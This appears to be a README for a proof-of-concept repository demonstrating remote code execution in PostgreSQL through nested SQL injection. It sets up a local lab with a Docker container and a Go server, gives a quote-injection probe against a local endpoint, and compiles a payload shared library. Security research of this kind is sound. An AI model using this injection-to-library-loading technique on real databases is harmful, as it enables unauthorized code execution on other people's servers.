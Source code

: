 # PostgreSQL RCE PoC via nested SQLi queries
This is a supporting material for my article at {CHANGEME}. Go check it out if you haven't already!

### Setting up the server
1. Install the Postgresql Docker container
```
docker run --name poc-postgres-sqli-rce -p 5432:5432 -e POSTGRES_PASSWORD=mysecretpassword -d postgres
```
2. Clone the repo and run this Go module
```
git clone https://github.com/adeadfed/psql-golang-rce-poc
cd psql-golang-rce-poc/go_server
go run poc
```

### SQLi PoC
```
curl http://localhost:8000/phrases?id=1'
```

### Compiling the shared library
1. Install correct dev dependencies for the major version of the vulnerable PSQL server
```
sudo apt install postgresql-13 postgresql-server-dev-13 -y 
```
2. Compile the lib with gcc
```
gcc -I$(pg_config --includedir-server) -shared -fPIC -nostartfiles -o payload.so payload.c
```
